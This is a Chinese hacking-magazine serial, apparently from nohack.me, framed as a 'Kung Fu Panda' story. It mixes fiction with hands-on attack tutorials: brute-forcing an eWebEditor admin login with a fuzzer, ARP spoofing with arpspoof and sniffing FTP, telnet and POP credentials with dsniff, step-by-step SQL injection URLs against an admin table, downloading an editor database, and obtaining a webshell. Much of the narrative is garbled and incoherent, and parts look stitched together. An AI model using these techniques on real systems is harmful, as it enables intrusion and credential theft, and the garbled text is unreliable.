再次选择“运行”里面的“开始 / 重新开始”按钮，弹出保存窗口，点击“确定”，如图14。

接着就会出现一个选择了对话框，其实这就是你要找出一个特征，让我们想办法确定是正确的，某个页面逻辑错误。这里你通过对话框里的先变动一部分字符，其辅助着“标记”当中，如图15。

这样就能在输入的用户名中找到匹配的字典并完成密码破解了。我这里的字典里应该是使用邮件、密码和用户名对应的规则。”

# 基础 | 策划：功夫熊猫
### 2010 第一季


没有这个动作，所以破解不出来。如果破解成功，在黑色的控制台会显示标注无的字。

但是由于 ewebeditor 后台这个后台不同，所以不能用漏洞攻击进行暴力破解了。这里只能调用采集功能加以破解了。这里我们可改用 Acunetix_Web_Vulnerability_Scanner_6.5的HTTP Fuzzer功能对其暴力破解。

在使用 HTTP Fuzzer 功能之前，务必先使用它的 HTTP Sniffer 功能抓包。我们要对正提交的数据进行抓包，就需要把 IE 提交的数据通过 Acunetix_Web_Vulnerability_Scanner。

先将 IE 的代理设置为 127.0.0.1:8080，如图16。

再进入 Acunetix_Web_Vulnerability_Scanner 的 HTTP Sniffer 功能，点击 “start” 进行监听。然后在 IE 中进入 ewebeditor 后台，随便输入账号密码进行登录，此时 AWVS 即可抓包如图17。

我们把获取的数据复制到 HTTP Fuzzer 模块中，如图18，然后点击 “Add Generator” 添加一个变量，如图19。


# 图17 获取数据


这里我们选取 "Number generator"，下面的 "start number" 就是设置数字从哪位开始，"stop number" 就是最后一位。如图20。

最后一定要记得将 Encoding 选项设置为 URL 字符型变量设置也是一样，只要输入你要组合的字符串即可。由于我们这里用户名账号密码都不知道，所以我们必须利用一个变量就可以了。ewebeditor 的默认账号是 admin，很多管理员的权限密码，但用户名一般都是默认的。

刚才我们提交的账号跟密码都是 admin，所以我们提交的数据中有 user=admin&pwd=admin&imageField.x=13&imageField.y=5 这些内容。然后我们选中 “admin” 之后点击 “insert into Request”，就将 admin 设置为要破解的数据了。

这设置好后点击 “start”，就可以进行暴力破解。


破解啦！破解过程一般都是很漫长的，要有耐性。

由于这个网站的密码不是很强，所以几个分钟就破解出来了，如果这只是你刚接触这个后门的骇客密码也是，算下来约等于黑客课程在中间的过程？曰了吧？别吃惊！

“帅呆！”朋友们。我说！这个软件真的很猛哦！

“是的！这个软件不是一款的菜单！你和别人之间系比较出他功能都做会吗！时间不早了，我们该休息了，你也别太累了。”

突然间就响声响亮发现窗外敲门啦！聊的，我就至高+个多的状况，竟然在用黑蜘蛛骇客我所用到的莫名其妙，似乎操作系统就中学就的我做错了！”

“知道了，你都度见啦！”

待视频关了之后，扇窗房里立刻显示MM，把各式各样的网站的过程给MM讲解了一遍。

“嘿嘿！熊猫GG你也行啦啦，偶亲**上晓！么一个、奖励下。”

“呵呵”小小事情搞不干什么，以后有代办事情你帮我吧，爱是会尽快做完。再说咱们的网络怎么轻松人没了平时多做些社交平台联合吧。

修改一下密码，密码要尽可能复杂，要采用字母+数字+特殊字符的组合啦，这样好像加了保护的程序就大大减少了。”

任务完成之后，阿宝一脸下就瞪着笔记本。估计又开始傻梦了，这次的会是


为什么呢？难道阿宝想自己占下小区的MM的男朋友？还是什么呢？我们不得而知，下一期让阿宝告诉你们吧！

# 功夫熊猫 7 Hacker 系漫游记 阿宝揭密黑色事业

新的开始

话说阿宝已经回家几个月了，早上就帮帮书老爸干干点别的，干脆打

还没呢呢呢呢。阿宝和你一人治着，每一天都至少做一些点滴。汤姆家的有故事

阿宝牢记心对电话，他相信，一天一个进步以后总能成长起来，逐渐向来在研究

哈哈！这时可以还看一遍，刚复改的windows下操作系统的设置。Linux下我操作

想学好学习，阿宝不再学电脑也从思入江走了在网上，海上还在学习生平人员，

学习一些数据库的知识，只有这样才能有更大的进步。举个例子吧，其实

在进入中，往往会遇到一些让人都不能直接用工具注入，这个时候就需要自

己根据环境构造的语句了可进行改动。

# 五一假期

终于到了五一假期，阿宝也能休息休息。五月二号早上7:38分，电

话响起。

“早上好阿宝，我是老猫！这么早给你电话，真打扰啦。”

“早上好呀猫哥，没空哦(阿宝心里真这么想么？)。猪了猪啤的，有什么

事呀？”

“是这样的，阿宝，我不是开了一个网吧嘛！最近网吧里的网络不太正常啊，

客人都老走了。这有一个问题总感觉老人家的游戏账号总好写，我不知道咋的哩！

你知道么，我在这几天，帮别人给人解的游戏是谁还在，不合格开服不可能成啊？

唉，具体说这个原因嘛，网络里会有些孩子，服务器总是不能很正常的跑，这么个有

关于这时你找我的想法，你就能帮我查一下这台服务器吧，我本来打算把九天大叫

人一下，开玩了，再说我也不懂，所以…

“这个猫哥也真会说话，还有大长尾，不过还挺快呀！”阿宝心道。

“呃，老哥，我现在来找找给你看看什么情况呗。”

“好的，等你。先谢谢咯。”

阿宝一个人就到了猪哥的网吧，里面的客人都少多了。

“老板，这网吧怎么回事啊？怎么老掉线？” 客人A 大声叫老老板。

“老板呀，这网吧怎么回事啊？怎么老掉线？” 客人A 大声叫老老板。

“这破网吧，玩的游戏账号都被盗了，我的装备全没了。” 客人C 理智地说。

“您贵姓是我呀？” 阿宝鸡肋地看。

“阿宝啊你面条也拿到哪里啦？” 阿宝低声问。

“没……没什么。我说看来你刚吧电脑喽大啊。”

话到阿宝打开中一台台文件，发现里面有很多奇怪的进程：l.exe、down.exe、arp.exe等等。阿宝立刻透过下载器，肯定是中介解密了。大哥你为何懂网吧定会安装这东西呢，但是阿宝将网吧排行榜进着软件，格出宽敞来的“根风”病毒了。此病毒一感染，就不断下载一些木马程序窃取用户信息。

“等等，这真要危险的，中的是另外弱弱病毒吧。我开玩你开小蠢说呢？就，是和个人电脑正在学习的进度不是正等，水分呢不是要就先度走，采用你老板的服务费多不很费劲，确保玩玩的时机不太多。”

“别家啦，谢谢你。有间安全，这不？” 这个金戒一般下系统就可以了，我

现在会让这台机器变成远程控制，告诉你，远程软件其实是最安全的，连接到你的电

脑的话，它可以控制你的每一个程序时，为了所有要做的网络操作只要通过这种软件

就可以实现。”

“是的，怎么说？还原软件带来了还原软件，安装在网上下的载入解码。

“的，阿宝说了之后，一笑矣。

“帮哥！这个软硬不能帮，你用破解超级技术支持，发现有利。还是若有

些就发黑掉下一个近天访问，甚至这的网上好不安全然实，在下载上还要你帮的么了

很多事情，因为这个背离还原的病毒要把某个软件，所以要及时更正版本，确保网吧

的安全啊。”

# N. C. P. 社会工程学名单

# 基础 | 策划：功夫熊猫
### 2010 第二季

“噢，这个……我真信了。本来起各几个代，想不到这样的……猪哥不打他把道也回答。”

“我看这阵吧，现在在浏览过程中上传买一个正版的吧，把还原软件升级到最新版本，这样就能确保重做系统之后不会被病毒感染了。”

“好的，没问题，帮别你的。”

接下来阿宝和网络把所有电脑的系统都重做一遍，然后把还原软件更新到最新的版本。一忙就是一天，到了晚上 10 点多才全部弄好。阿师阿经总算正常了。

“阿宝，今天真的太感谢你了。都这么晚了，下午也没吃饭，晚上吃上宵夜吧。前面开了间街边烧了一锅油。是药塔烧药?”

“海鲜吧，可能去了！有完之前电脑没事啊。” 还有别的吗？” 阿宝看看一幅头好得说。

“有的，肯定有的，你做走的的叶少不才，” 阿宝，你先吃点东西。要不吧！”

“那好，等等，有都没多远，是吧！ ”

“那我叫你哪么去不了一个见劫几小时了？一口就忘记……… ”

“好了，阿宝，你先吃饭，我等阿姨叔阿姨回报问题，有东西吗？我买点还以为此时的未对手在紧张没有打比赛中。”

“这个可能您不能刚能回顺，顺时扣可能有哪名攻击方网吧吧吗？其次网络中的黑色产业链使我们。比如网攻引发的攻击可就让黑色产业链、有些黑客会提供一些攻击服务来供网的，某些网络的网络硬件设备、成功的一方！便已创建一个平台……伤害他的系统，以及他承担的后面动在别有利的网络行为推进影梦出多次。”

“黑色产业？网络也有黑色产业啊？这个家伙真不懂。”

“有的。”

吧办公软件从做一个游戏，内容都是黑色产业的。我知道建筑玩那种引什么都懂，所以上这软件？也可以从中了解这种。/新闻是从中把黑色产业链弄明白了。”

“听你这么久月作业去了！不过也有必要做一次这样的演讲，通过这个设计班里多的人以识别网络安全很重要了。好吧，我们带些回一下，不过声称你也要有你的准备。到时候我要买你讲的。”

“好的，师姐。我先来。太感谢你啦！”熊猫回答露了他挤子。

“......”

“各位来宾，大家好！今天有幸能有师评平台在某件下和橙它大伙来我们低讲，《大家以为的黑客软件这边熊举拳》主宰凡凡。

“今天我先来给大家说说‘一些具最产业的术语’。第一个出场的是大木板见路。”

黑色产业中常常会拿到流量重要。其实这个途径就是网站的访问量，互联网已经给了你赚钱的机会，如果拿别的页面来开关点击量、恶意流量就可以拿到一些收入。这些就是广告收入，并形成了一些灰色产业链。人们的工作中，可能会有很多数据在总量下回流，甚至是一些服务、报表、统计的内容都被整理成了数据来处理。

“什么是 I/O 里的一个瓶子？它的作用就是把数据从网上连接到现实世界。很多游戏中常用的 I/O 还是和这种流量也会有很多业务被挂靠和攻击。”


……下面的内容说明了网络安全和黑色产业之间的一些关系，以及如何通过分析日志、识别流量和异常行为来发现问题。文中还提到了一些常见的防护手段，例如更新补丁、使用杀毒软件、合理配置权限以及提高安全意识。

阿宝、阿师等人围绕“黑客”“肉鸡”“木马”“钓鱼”“DDoS”等术语展开讨论，说明了这些网络攻击方式的基本含义和危害，并强调了防火墙、杀毒软件、浏览器安全设置与及时更新系统的重要性。

### 2010 第二季
# 策划：功夫熊猫 | Rudiment


接下来这一篇，我们主要来讲一个社交“工具”的思路。前面已经说过，所谓“工具”，在这里更像是帮助用户完成某种行为的手段，而不是简单的功能堆砌。围绕账号、关系链、传播与曝光，很多玩法都建立在这一层逻辑之上。

在这个过程里，第三步就是通过一些结构化的手段，把原本零散的行为串起来，让用户更容易形成习惯。比如说，设置更复杂的密码、绑定更多的验证方式、控制登录环境等，都是为了让安全和使用体验之间达到一个平衡。

1. 第三点：设置一个较为复杂的密码，最好由数字、英文字符、特殊字符等组合。
2. 第四点：在网吧上网时先把机器重启一遍再运行游戏，并注意检查是否存在异常进程。
3. 第五点：使用密保卡。
4. 以上是我总结的一些方法，希望对大家有所帮助。

“比如我在QQ上面有个QQ号，当密码是各样字数的时候我们比较容易被偷走，尤其是通过某些自动化工具时更是如此。为了避免这样的情况，最好将密码设置得更复杂些。”

“另外，如果你的网站或者游戏账号涉及到重要信息，建议尽量采用更严格的身份验证方式。这样做虽然麻烦一点，但能有效降低被盗风险。”

“所谓安全防护，最终还是要回到用户习惯和使用场景上来。很多时候，复杂并不意味着更安全，关键在于是否真正适配使用场景。”

“例如：如果你经常在公共电脑上登录账号，建议使用一次性验证码、绑定手机或其他二次验证手段，尽量不要长期保存密码。”

## 灰的子产业链示意图

“早期”，是啊，其实这只是在冰山一角，具体的数目你我都不知道，不过很多媒体都报道过，一个病毒能带来几千万的收入，但是实际是不是那么多，就只有那些黑产人士才知道了。

“神秘大侠，前前前段时间 CCTV 不还是曾报道黑色产业链吗？好像参与黑产产业链的那些人只有 80 后，90 后的年轻人啊。”C 老板问道。

“因为这个年轻人搜集垃圾比较多，基本天天跟网络交叉，并且很多 80 后的年轻人不在传染力，特别开学一些部门可控的方案来做践散，所以导致了这个结果。90 后的孩子穿帮率的比挺多，在 90 后的黑产业工作者中，有多名是中高级分子，开始给上了网络，后来被抓了黑色服务机过程中云币。”

#### 功夫熊猫 8：dsniff 嗅探全攻略

灰灰又曰求助了，全网很多地区出现了高温天气。早实刚死，我国南方地区又来分明天气，每到春提季，灾欠的同刚几及天天交给人们带来的伤害，心都急得难受呀。希望这次日子早点过去吧。

### 山上危机

阿宝在安宁了一段时间了。一次接到师傅的命令，让他赶紧回到山上。阿宝跟着兰德道儿子，立刻打了一个电话到山下的员工处，然后用波波钧常志上山。师傅已经在山顶等他。

“Master……师傅。嗯，什么事情了？”刚刚回到山上的阿宝就喘呼呼地说。

“阿宝，你得要面临一次最大的挑战！”

“what? 屁年春来到了我国来了吧？”比如有黑炮饼叽两味的表情，阿宝异常紧张，眼睛都快发大地。心想是不是要来一场恶战啊？此类听师傅道是怎样讲的。

“你进去见师祖！”

他就朝空里一倒身子，“也就能得连续！看见门口的庭院大门！

在一旁的师兄弟们相视而笑。阿宝正准备下跪，突然间师傅说，“你是从哪里来，就到哪里回去。”

“对了？对于小孩？一搭藏能把他们带平了！难吃你们懂什么功夫么？”

“不过，你怎么那么着力？小孩使用起来的，怎么能用功夫对付他们呢？”

“我不是小孩你们能懂，而是叫你我也让你们，传授本领给他们。”

“我？被他们？”（阿宝声音很高的表情！）师傅，我可没没对此人呢，而且还是小孩，我们并不像想像的，可是师徒也很可怕，传授本领给他们。”

“所以说这一次是非常艰苦的，自己要极严抓，绝不能输。”

“是的，师傅！虽然刚才你点点不愿意，借用新的命令还是要听从的。”

“那就先给你准备点东西，放心吧，这些小孩将非常老奸。”

“师兄们说的不错，不是说，搭乘也有些共同点，而且吧，对法都要心思缜密。”

“我明白，师傅。”他说，“目前捉你的冷面，帮住你了”

### 泡沫危机

话刚完，阿宝就做了成里！里面还有减年华，他也没有什么人，只一种小孩子在黑龙江省有什么神。然后师傅要阿宝他俩小儿可长安的紧急会问情况。

## 新的挑战

“孩子们！孩子们！今天由我来做你们的老师。由于孩子的欢笑声太大了，师傅没入听见阿宝的话。

“孩子们！”阿宝穿开肚子喊啦，不过孩子们依然没有停下，接着阿宝一个旋风踢踢到师傅腿下，朝倒发出自己的哈拉投子给住了。

“哇！是护龙大侠快要！这个只手可用阿虎尤大喊。”

“Yes! 就是我。孩子们，从今天开始我就是你们的老师。你们希望老师教你们点什么？”
“老师，我想学步功夫！”
“我要学光影舞术！”
“老师，我要学降龙十八掌！要学飞龙在天！”
“我们也要学功夫！”其他小孩子争相说。
“好！那大家对大黄方锦伸构架……那后面你们，学功夫有什么用呢？”
“老师，当然是用来打架啊，骂街说不顺眼就揍他。”小小笨 A 回答说。
“老师，我要学功夫保护家人、赚钱做买卖。”小小笨 B 回答。
“子人说，边听边比划着。”
“学了功夫就可以欺负官府，那一定很多女女喜欢我的！”小小笨 C 说道。
“哎呀，学功夫是关心老闷？”
“孩子们，学功夫用途打架是错误的，功夫是用来保护自己的，而不是主动去跟别人打架的。给不能和好斗的坏人抢，反而要做些什么有益于社会的事才行。”
“秘密？什么秘密？”孩子们都很好奇。
“这个问题以后会慢慢知道。鹏鹏！”蓝磊南园在笑着了，引起孩子们的兴趣。“？？”

等了一天又一天，终于发现剑法世界的节奏比他快了。在这个夏日如年的旁边，终于学到了静坐运气法。一天，一式，麦出到他醉呼采手诀的气太二诀，今来生师们终于掌握。后来，他也终于摆脱了的烦恼。孤苦飘零的岁月的反复，感到自己的武学修行中，终于也告别了单一而动则，过自律逍遥、热学人家处得来来去去。身为八转神鲲套也终于能够令大事发。于是，终于各式武学大成。满怀欣喜的同时，他脑中忽然想起那位大侠留下的心法，当然也来不及多想，一边就一边地开始走路。期间他想起，自己也不懂得长大，为什么又要在这纷繁复杂的世界上修炼。后来又想起，自己的修行似乎并没有什么很大的意义了。另一方面，历经种种波折的成长路上，让人回到了原点。

“学艺归来！”老爹。终于打开大门道。小笨子被爸爸领进门。老爸语重心长地问道：“为什么你要打架？”小笨子回答：“因为有人惹我。”老爸说：“打架不能解决问题。要学会用智慧去化解冲突。功夫不是用来欺负别人的，而是保护自己和身边的人。”小笨子听后点了点头，决定以后不再轻易打架。

“你们要研究别人说话声，这样才礼貌。”小兔子 B 说。
“嗯哼，同学们都从中吸取了不少知识啊。老师来总结一下，失言或者给别人讲话了会挨骂，这是要警告大家不要多嘴的意思。”
“我学会了多听少说。”同学们齐声说道。
“时间虽然不多了，同学们也因此收获不少，老妈还在别的地方等着我。”
“老师再见！”

## 终极课操

随后，熊猫阿不离开图书大楼，刚进大院四亮就看见儿们在调试投影机。“师兄好！我来啦。都在忙啥呢？投影机坏了么？”阿宝笑嘻嘻地塑头。“NO！我们为下面的课程准备呢！”太极虎师兄回答说。“上课？给谁上课啊？”师弟。“都啊，不过不是那些小孩子上课了吗？我们还开了一个网络攻防高级班。”阿宝问道：“坐点师兄，猫咪师兄突然说要引导学生操作系统的知识？”师兄组说道，“当然不是了，这个课程是为一些有基础的同学设计的。她来姐题说。“原来如此呀！今天的课程是怎么内容啊，师兄。”阿宝问。“今天上课的内容就是 Linux 下安装工具的安装及使用。”师兄甲说。“太好了见呢，记得这个我都不懂，很期待能到现场学习。”

“好啦，不过你下去不见别的小孩子上课了吗？我们还有了一个网络攻防高级班。”阿宝问道：“既然不用电脑，那你要装到哪里啊？是给谁用呢？”“当然不是了，这个课程是为一些有基础的同学设计的。她后来继续说。”
“原来如此呀！今天的课程是怎么内容啊，师兄。”阿宝问。
“今天上课的内容就是 Linux 下安装工具的安装及使用。”师兄甲说。
“太好了呢，这个过程我也不懂，很期待能和你们一起学习吧。”大熊虎说。

图 1 新建虚拟机

图 2 设置光驱

图 3 定义安装路径

## 基础 | 策划 | 功夫熊猫

### 2010 第三季

启动刚才设置好的虚拟机，就会进入 CentOS 系统安装的界面（如图 6）。

按回车之后，系统加载文件，文件加载完毕之后出现界面（如图 7），询问是否测试此 CD 完整性，我们按 SKIP 选项，直接进入安装。然后出现（如图 8），继续 Next 下一步就出现选择（图 9）。

语言我们选择简体中文，继续下一步。键盘选项该美国英语去做（如图 10）。

继续下一步就是是否删除原驱动器数据，这是最新更新，我们需要勾选操作的，所以选中。随后出现分区的时候（如图 11），由于这个系统为实验需要，我们的分区默认的 4 分区进行分区即可（如图 12），下一步提示是否继续进行（如图 13），点击“是”。

网络设备这一项设置还是用默认（如图 14），直接 DHCP 分配 IP 地址。下一步设置时区（如图 15）。

70 nohack.me

### 2010 第三季

## 策划：功夫熊猫 | Rudiment

不需要重复，直接使用默认下一步。下一步之后显示开始安装系统以及日志文件存放路径（如图18）。

接着就进入最终的安装过程（如图19）。大概需要20分钟，安装成功（如图20），重新引导进入系统。

在进入系统之前需要几个设置（图21），防火墙设置还是默认的设定（如图22），因为我们是为实验只需要 SSH。

接着下面一步都是默认就可以了，接着出现“创建用户”的界面（如图23），这边创建的用户是除 root 用户不同的，大家可以理解为，root 用户就相当于 windows 下的 administrator 用户，现在你要创建的用户就好比 windows 下的 user 用户。这是我们创建一个账号和密码就是 nohack 用户。最后再进行一个时间和附加安全选项，直接就能完成系统初始化设置了。再次重启后出现登陆界面（如图24），系统由于做实验操作，避免安装程序

## 基础 | 策划：功夫熊猫

### 2010 第三季

## 防火墙

## 创建用户

结果返回的是以 NAT 分配的 IP，不是我们将要分配的，在终端输入 `service network restart` 命令重启网卡（如图27）。再次执行 `ifconfig` 命令看看 IP 地址（如图28），现在 IP 变为 `192.168.0.107` 了。继续用 `ping` 命令测试一下网络是否正常（如图29），网络正常了，下面就可以进行安装操作了。

此时台下响起一阵掌声。

“谢谢熊老师给我们带来这么精彩的内容。下面我给大家演示一下联机软件安装的全过程，安装典型的全过程，其实不是单纯安装一个定制光盘系统的，因为它需要做很多软件才能正常工作。在安装到操作之前，我们需要确保 Linux 系统安装了 GCC 编译器。刚才我们在做的时候是没有安装 GCC 的。

时过液系统崩溃，所以我们先做一个快照。

我们先不急着进入系统，先设置一下网卡以“桥接”的方式上网，打开虚拟机的设置选项（如图25），勾选即可。设置完毕来到 root 用户登录系统，然后用 su 命令切换到 root 也能安装（直接键入 su 命令，输入 root 密码）。进入系统之后，桌面可见“打开终端”，键入 ifconfig 命令看看是否自动分配到了 IP 地址（如图26）。

### 2010 第三季

## 策划：功夫熊猫 | Rudiment

##### 一、安装 openssl

```
bash
# tar zxvf openssl-0.9.7i.tar.gz
# cd openssl-0.9.7i
# ./config
# make
```

在 CentOS 系统中直接用 yum 命令就可以进行安装了。在终端键入 `yum -y install gcc` 命令就可以自动安装（如图30）。同学们，在 gcc 安装完成后建议改成一个阶段（随中请学友按状态改一下吧）向下去 Snapshot 那些，使人件基本安装过程中。接下来在本地使用 xshell 连接 CentOS，首先设置一下 xshell 使显示中文，在 shell 中执行如下命令（如图31）：

```
bash
# cd /etc/sysconfig/
# cp i18n i18n.bak
# echo "" > i18n
# echo "" > i18n
# vi i18n
# 输入 vi i18n 命令会出现一个编辑窗口。
LANG="zh_CN.GB18030"
LANGUAGE="zh_CN.GB18030 zh_CN.GB2312 zh_CN"
SUPPORTED="zh_CN.GB18030 zh_CN;zh_CN.utf-8 UTF-8 en_US"
SYSFONT="lato-unicode"
```

然后按 ESC，再输入 :wq 保存退出，最好重新启动一次系统。要实现 Linux 嗅探，需要安装如下软件：openssl、libpcap、libnids、dsniff、flex 和 bison、libnet、BerkeleyDB。要是你本地没有这些软件，你可以用 wget 命令下载回来，语句是这样的 `wget http://www.xxxx.com/openssl.tar.gz`。另外你还可以在 xshell 下直接拖进去，这里我们把所有的文件临时存放在 tmp 目录，进入 /tmp 目录用 ls 命令会有一下文件（如图32），所需的程序都下载完毕，开始安装软件。

##### 二、安装 flex 和 bison

```
bash
# yum -y install flex
# yum -y install bison
```

##### 三、安装 libpcap

```
bash
# tar zxvf libpcap-0.7.2.tar.gz
# cd libpcap-0.7.2
# ./configure
# make
# make install
```

##### 四、安装 libnet

```
bash
# tar zxvf libnet-1.0.2a.tar.gz
# cd libnet-1.0.2a
# ./configure
# make
# make install
```

##### 五、安装 libnids

```
bash
# tar zxvf libnids-1.18.tar.gz
# cd libnids-1.18
# ./configure
# make
# make install
```

##### 六、安装 BerkeleyDB

```
bash
# tar zxvf db-4.7.25.tar.gz
# cd db-4.7.25/build_unix
# ../dist/configure --enable-compat185
# make
# make install
```

以上安装都不要设置。

##### 七、安装 dsniff

```
bash
# tar zxvf dsniff-2.3.tar.gz
# cd dsniff-2.3
# vi arp.c（编辑 arp.c 文件）
```

这里需要在空白处插入 `#include "memory.h"`（如图33），把光标移到空白处，键入 i 插入数据，然后按 ESC 返回图，再键入 :x 退出编辑。

```
# ./configure --enable-compat185 --with-db=/usr/local/BerkeleyDB.4.7
# make
# make install
```

### 八、其它设置

## 基础｜策划：功夫熊猫

### 2010 第三季

太极脱鞋地这么下，俺师兄已经隐约上面了。

哈哈，终于到我上场了。同学们，下面的实验是本文内容的高潮，大家认真点哦。我师兄对我说：

##### 九、使用 dsniff

```
bash
# cp /usr/local/BerkeleyDB.4.7/lib/libdb-4.7.so /usr/lib
# cd /usr/local/sbin; ls（如图35）
# ./dsniff --help（如图36查看帮助文件）
```

执行 dsniff 后，Linux 机器 IP 为 192.168.0.108，目标 IP 为 192.168.0.109，网关地址为 192.168.0.1，现在演示抓捕的过程。在其中一个 shell 执行 `arpspoof -i eth0 -t 192.168.0.109 192.168.0.1`（如图37）对目标机实施 ARP 欺骗攻击。

在另外一个 shell 执行 `dsniff -i eth0 -n -t 21/tcp -ftp,23/tcp=telnet,110/tcp=pop` 命令（如图38），使用 dsniff 取得指定端口的数据包。现在登录下 192.168.0.109 的 ARP 表或者去 dsniff 侦听，网关的 MAC 地址已经变成了 192.168.0.108 的 MAC，ARP 欺骗攻击成功（如图39）。接下来我在 192.168.0.109 上分别登录 FTP 和 POP3 服务器下发表如下邮件，最终结果如图40。

同学们，是不是很厉害？有杀回来的了吧？
“哇！So cool！Linux 学院果然名不虚传啊！师兄，何空空勤呀呀！
同学们，今天的课程到这里了，希望大家回去多练习一下，再见！”

## 功夫熊猫 9. 比武招亲

### 灵蛇的故事

“孩子们，请安静！这些天大伙都很累，老师也累得很厉害。大家继续这样努力学习，以后必然大有出息。以后要开始大规模走形式的事情你们今晚也别来上课，那样你们就会有一个好的环境。”

“老师，你要关照一下自己，要让同学们做快乐吧。”小狮子义正辞严地说道。

“那么，为什么要和别人来打架呢？”

“老师，说实在的，我对这件事情的理解，也非常负责自己的思考、自己的笃实大作家有什么眼光。”

“你们会来参加比赛的故事是关于蛇老师的。你们这几天都有点不对劲了。”

“今天，我们将上一堂有意思的课程，究竟会看到这篇自己很喜欢的大作家。”

……

（文中间为多段叙述对话，略）

中带着悠久，用暧昧的眼神盯着大猩猩。

“哈哈！就凭你？靠着蒙尘么样的小崽？真是天大的笑话。”哈哈哈哈哈……

“小子！什么话都不要多说！”……

“你们不是灵蛇，敢和我敢地惹的拳手，我们就是小兔子啊！”

“听说了你们不是灵蛇，敢和我敢地惹的拳手。”

……

“爷爷！这个是不会打架吗？阿宝同学打不了，兔子是不是会打？”

“爷爷们不教你们吗？有些题啊，拳手和大猩猩不是一个层次的对手。只要你们敢打，有的并不在乎在别人的眼里是不是英雄。”

……

“老师，我明白了，是不是我该听老大和小坚配下去？”

“嗯，你是有点开窍了，对付强者不一定要用硬打，先想想，当然你可以去学习自己的功夫，你可以变强，至强中占有优势。这种也可对付厚重的表象。”

“老师，你怎么不叫这边先做这几个自己的机会。 从而让讲台外台的张力，场上有一种派克……

于人回家睡。”

比武招亲

据说回来，前段时间猴子老爸跟阿宝宝了。孩子们想到阿宝学年纪也小了，这话说给谁也不怕了。正好选了比武招亲的活动，散看家谁就要成为自己的婆家。小狮子说道，阿宝会刚开始自己在放大镜前，一位老鼠觉得自己在晒晒太阳，先是落水时好奇，后来是因为问题。

……

“access 偷袭注入”

一关就是需要从注入点找到管理员的账号密码。阿宝一开始听了会很惊讶，果然通过注入漏洞得到账号密码……

（后文为操作步骤与说明，略）


## 基础｜策划，功夫熊猫

2010 第四季

表，因为这个表是 MSSQL 数据库里特有的，所以构造数据库为 MSSQL。如果返回错误，那就不是！那么此数据库里有可能是 access 的，继续提交 http://nohack.me/index/feedbackinfo.asp?new_id=8136 and exists (select count(*) from msyobjects) … 如图 5。返回错误页面在配套文档内，msysobjects 表是 access 数据库自带的，默认情况下是没有权限查询这个表里的数据的，不过错误信息会提示“不能读取记录，在 msyobjects 设有读取权限数表，图 6。如果返回错误则也说明是一个错误信息。


图 2

话，那就证明是 access 数据库了。但是这个目标返回的不是这个错误信息，但是也确定它就是 access 数据库，返回错误页面信息不对，说明程序采用不同接口连接 access 数据库。有一个口是选这样的：如果提交 and exists (select count(*) from sysobjects) 返回正常页面，那就是 MSSQL 数据库，如果再参数不正常，那就是 access 数据库了。数据库类型判别完成，阿宝继续使用 order by 方式测试


页面返回正常，如图 2，提交到 http://nohack.me/index/feedbackinfo.asp?new_id=8136 and+1=2 页面出现错误信息，如图 3，说明这是个数字型注入点。现在他知道这是一个注入点了，接下来需要判断它是什么类型的数据库。接着让 http://nohack.me/index/feedbackinfo.asp?new_id=8136 and exists (select count(*) from sysobjects) 结果返回错误，如图 4，这就说明页面的数据库是 MSSQL，如果页面正常返回，则说明数据库是 access

图 3

这就说明此网站采用的数据库并不是 MSSQL，如果页面正常返回，那就可以证明数据库是 MSSQL 的。这个句子的意思是查询库里的记录数是否小于 0；如果返回正常，说明大于 0，也就说明存在 sysobjects 这个


76 nohack.me

## 2010第四季

## 策划：功夫熊猫 | Rudiment

new_id=8136 and 1=2 union select 1,* from admin 后返回错误页面，如图11。然后依次将字段数加1，直到提交 `http://nohack.me/index/feedbackinfo.asp?new_id=8136 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,* from admin 时返回正常页面，如图12。`
说明 admin 表有 14~1=3 个字段，这样就知道表 admin 的字段了。


一下字段数。提交 `http://nohack.me/index/feedbackinfo.asp?new_id=8136 or 1=1` 页面返回正常页面，如图7。然后依次提交 `order by 1-14` 均返回正常页面，当提交 `http://nohack.me/index/feedbackinfo.asp?new_id=8136 order by 15` 时页面返回错误信息，如图8。那就提示当前的字段数为 14，问题怎么通过题目的这个么简单呢？进入注入点继续测试！显然它这么多字段，选择字段的数目需要完成之后接下来


来观察要判断表的名字。提交 `http://nohack.me/index/feedbackinfo.asp?new_id=8136 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14 from admin` 后返回正常页面，如图9。（如果这里不太明白，可以参考一下功夫熊猫第4期，本期重点在这里。）
返回这样的页面说明存在 admin 这个表，接着填写字段的工作顺空给注入工具，结果只能用第一个 ID 的字段，如何，10。
“字段名称除数字很大其实！一般非常的十分不容易的。要真实不少，我们会继续尝试看看我的假设。”


“原因在于，利用提交 `http://nohack.me/index/feedbackinfo.asp?new_id=8136 and 1=2 union select 1,1,1,1,1,1,1,1,1,1,1,1,1,1,1 from admin` 后，管理员对应页面如图12；这样就默认包含了新的字段。”


nohack.me 77

## 基础｜策划·功夫熊猫

2010 第四季

本文对的帐号管理器防后台，如图 14，随便选一个新网站并进行编辑，如图 15。"咦！不是吧？ewbeditior 竟没有右键" "啊！空白时的表情肯定是让上控制台杀活死况。"同安装者右键打开此网页的源代码，以 ewebeditor 为关键字进行搜索，如图 16。看到了 ewebeditor 编辑器的路径后发觉如下 http://nohack.mc/ewebeditor/admin_logij.asp。返回结果如图 17，打开即可直接得分。"不是吧？ewbeditior 编辑器的帐号界面被篡改了？还是被删掉了啊？" 阿宝深吸了一口气，然后惊异起来。他心里：这个念头就像一个新感叹的 ewebeditor 编辑器啊吧！


只见阿宝继续访问 http://nohack.mc/ewebeditor/db/ewebeditor.mdb 讲解以下得到的界面，如图 18。此时阿宝一愣，然后把数据库下载到本地，打开数据库，如图 19，进入 ewebeditor style 这个表查看有没有被人修改过的痕迹。


多元化的唯一一法，一机一条是原来游戏关卡一样让一批火力战得胜手的伪加分项目，人方办加分动机……

"OK 了，我到！第一次关完成了！"阿宝大喜若狂地将中间的几个怪兽。

## ewebeditor 无后台获取 webshell

一阵警光突然到了第二的比赛。比赛台上大屏幕提示信息为：获取目标网站的 webshell。


#### 环境变量提权

后点击代码编辑器模式就可以看到网站上传文件的路径了。 “上传成功了！一切都是浮云，删不彻底的！”隔壁宿直笑疯了。“不知这个目录能不能解开 asp 文件，先访问看看再说！”

同样用一台访问客户端提交上去后，发现上传上去的 asp 文件能正常解码。图 22。

此时阿宝终于下手的试探原于了电脑的情况，做了一个胜利的姿势示意管理员自己已经获取 webshell 了，轻松剥晓定，太凡界上显示神光大火因拿第二个通笑。此时见次激动起来，传来一片掌声。

